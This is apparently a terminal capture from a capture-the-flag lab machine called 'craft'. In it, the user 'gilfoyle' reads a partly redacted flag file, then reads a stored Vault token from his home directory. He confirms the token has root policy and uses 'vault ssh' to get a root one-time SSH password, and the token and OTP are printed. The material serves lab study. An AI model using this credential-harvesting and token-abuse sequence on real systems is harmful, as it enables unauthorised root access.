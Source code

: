The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
Last login: Mon Jan 6 14:53:11 2020 from 10.10.15.47  
gilfoyle@craft:~$ ls  
user.txt  
gilfoyle@craft:~$ cat user.txt  
bbf#########ZENSIERT#########2d4  
gilfoyle@craft:~$ clear  
gilfoyle@craft:~$ ls -alh  
total 44K  
drwx------ 6 gilfoyle gilfoyle 4.0K Jan 6 14:59 .  
drwxr-xr-x 3 root root 4.0K Feb 9 2019 ..  
-rw-r--r-- 1 gilfoyle gilfoyle 634 Feb 9 2019 .bashrc  
drwx------ 3 gilfoyle gilfoyle 4.0K Feb 9 2019 .config  
drwx------ 2 gilfoyle gilfoyle 4.0K Jan 6 12:45 .gnupg  
drwxr-xr-x 2 gilfoyle gilfoyle 4.0K Jan 6 12:20 .nano  
-rw-r--r-- 1 gilfoyle gilfoyle 148 Feb 8 2019 .profile  
drwx------ 2 gilfoyle gilfoyle 4.0K Feb 9 2019 .ssh  
-rw------- 1 gilfoyle gilfoyle 36 Jan 6 15:00 .vault-token  
-rw------- 1 gilfoyle gilfoyle 3.5K Jan 6 14:58 .viminfo  
-r-------- 1 gilfoyle gilfoyle 33 Feb 9 2019 user.txt  
gilfoyle@craft:~$ cat .vault-token  
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9

gilfoyle@craft:~$ vault token capabilities f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9  
root  
gilfoyle@craft:~$ vault login  
Token (will be hidden):  
Success! You are now authenticated. The token information displayed below  
is already stored in the token helper. You do NOT need to run "vault login"  
again. Future Vault requests will automatically use this token.

Key Value  
--- -----  
token f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9  
token_accessor 1dd7b9a1-f0f1-f230-dc76-46970deb5103  
token_duration ∞  
token_renewable false  
token_policies ["root"]  
identity_policies []  
policies ["root"]  
gilfoyle@craft:~$ vault ssh -mode otp root@localhost  
WARNING: No -role specified. Use -role to tell Vault which ssh role to use for  
authentication. In the future, you will need to tell Vault which role to use.  
For now, Vault will attempt to guess based on the API response. This will be  
removed in the Vault 1.1.  
Vault SSH: Role: "root_otp"  
Vault could not locate "sshpass". The OTP code for the session is displayed  
below. Enter this code in the SSH password prompt. If you install sshpass,  
Vault can automatically perform this step for you.  
OTP for the session is: 3ed24235-8265-5927-dc3a-93b0d5ed2a8f
